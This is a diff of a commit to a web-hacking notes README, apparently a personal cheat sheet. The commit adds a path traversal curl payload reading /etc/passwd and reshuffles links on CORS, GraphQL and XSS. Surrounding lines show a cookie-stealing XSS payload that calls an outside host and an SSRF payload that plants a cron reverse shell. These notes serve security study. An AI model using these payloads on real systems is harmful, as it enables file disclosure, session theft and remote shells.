

Before and after one commit to 4nuit/Hacking, a Markdown page: web/README.md, 3 parts joined by grey strips. Shown: that part at 80% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
fix path traversal

````diff
--- a/web/README.md
+++ b/web/README.md
@@ -196,7 +196,7 @@ sudo systemctl restart httpd
 - https://github.com/ticarpi/jwt_tool/wiki
 
 
-## GraphQL
+### GraphQL
 
  - https://www.next-decision.fr/wiki/differentes-categories-api-majeures-rest-soap-graphql
  - https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/
@@ -204,8 +204,16 @@ sudo systemctl restart httpd
 
 ![](./images/api.gif)
 
+
+## Path Traversal
+
+- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md
+
+```bash
+curl -X POST "http://example.org/test.php?file=....//....//....//....//etc/passwd" -d "file=logs_existing.txt"
+```
+
 ## File Inclusion
-
 
 ### Local & Remote File Inclusion (PHP)
 
@@ -470,25 +477,24 @@ dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port
 
 ## Doc - Client
 
+- https://portswigger.net/web-security/cors
+- https://seal9055.com/blog/browser/browser_architecture
+- https://www.devsecurely.com/blog/2024/06/cors-the-ultimate-guide
 - https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
-- https://portswigger.net/web-security/cors
-- https://www.devsecurely.com/blog/2024/06/cors-the-ultimate-guide
 - https://nathandavison.com/blog/corsing-a-denial-of-service-via-cache-poisoning
 
-## Exercices
+### Challenges
 
 - https://alert.zeyu2001.com/
 
-## Obfu
+## Tools (Obfu)
 
 - https://obf-io.deobfuscate.io/
 - https://js.retn0.kr/
 
-## AST
-
-- https://seal9055.com/blog/browser/browser_architecture
 
 ![](./images/url.png)
+
 
 ## CSRF
 
@@ -547,9 +549,7 @@ Voir aussi `elements`
 
 `Protection`: HTML-encode les entrées utilisateurs, CSP
 
-`Reflected XSS`
-
-Report link:
+`Reflected XSS : Report`
 
 ```html
 https://vulnerable.org?parameter=<img src="//night.free.beeceptor.com?data=".concat(document.cookie)>
@@ -557,11 +557,10 @@ https://vulnerable.org?parameter=<img src="//night.free.beeceptor.com?data=".con
 
 [Dom Based XSS](https://blog.cyxo.re/pwnme-2022/pimp-my-bicycle/)
 
--> appel ou accès aux éléments du DOM (ex document.getElementByID)
+- appel ou accès aux éléments du DOM (ex document.getElementByID)
+- accès aux erreurs
 
 ![console](./images/console.png)
-
--> accès aux erreurs
 
 ### CSP
 
````
Also changed, not shown: other parts of web/README.md (+10 -5 lines).
